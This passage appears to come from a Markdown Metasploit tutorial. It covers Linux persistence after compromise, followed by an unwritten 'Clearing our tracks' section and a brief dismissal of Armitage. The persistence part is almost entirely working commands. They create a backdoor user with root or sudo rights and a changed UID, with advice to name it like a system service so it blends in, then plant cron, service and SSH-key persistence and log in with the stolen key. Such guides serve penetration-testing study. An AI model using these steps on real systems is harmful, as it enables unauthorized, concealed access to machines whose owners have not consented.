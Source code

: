 Let's see some modules that will help us accomplish persistence.

```bash
meterpreter > shell
$ useradd -m [USERNAME] -s /bin/bash
$ passwd [USERNAME]
$ usermod -aG [root/sudo/wheel] [USERNAME]
$ usermod -u [NEW_UID] [USERNAME]
# this is one method of persistence. creating a user and hiding it.
# of course, you won't name the backdoor user something like "hacker" or "backdoor".
# try some service names like ftp, postfix, mysql, and others. the user will blend in perfectly.
msf6 > search platform:linux persistence
msf6 > use exploit/linux/local/cron_persistence
msf6 exploit(linux/local/cron_persistence) > set SESSION [SESSION_ID]
msf6 exploit(linux/local/cron_persistence) > set TIMING [CRONTAB_TIMING]
msf6 exploit(linux/local/cron_persistence) > set USERNAME [USERNAME]
msf6 exploit(linux/local/cron_persistence) > set CLEANUP true
msf6 exploit(linux/local/cron_persistence) > run
msf6 exploit(linux/local/cron_persistence) > use exploit/linux/local/service_persistence
msf6 exploit(linux/local/service_persistence) > set SESSION [SESSION_ID]
msf6 exploit(linux/local/service_persistence) > set payload [COMPATIBLE_PAYLOADS]
msf6 exploit(linux/local/service_persistence) > run
msf6 exploit(linux/local/service_persistence) > use post/linux/manage/sshkey_persistence
# use tab autocompletion.
msf6 post(linux/manage/sshkey_persistence) > use exploit/linux/local/sshkey_persistence
msf6 post(linux/manage/sshkey_persistence) > set SESSION [SESSION_ID]
msf6 post(linux/manage/sshkey_persistence) > set CREATESSHFOLDER true
msf6 post(linux/manage/sshkey_persistence) > run
# access the private key with 'loot'. 
$ chmod 0400 [SSHKEY_FILE]
$ ssh [USER]@[TARGET] -i [SSHKEY_FILE]
```

<a id=7.3.4></a>
### Clearing our tracks

Will do later.

<a id=8></a>
# Armitage

It's just a graphical Metasploit console. If you really wanna make any use of Armitage, you'll need to use the msfconsole.
So why not just do that?

Just go and check it out. 
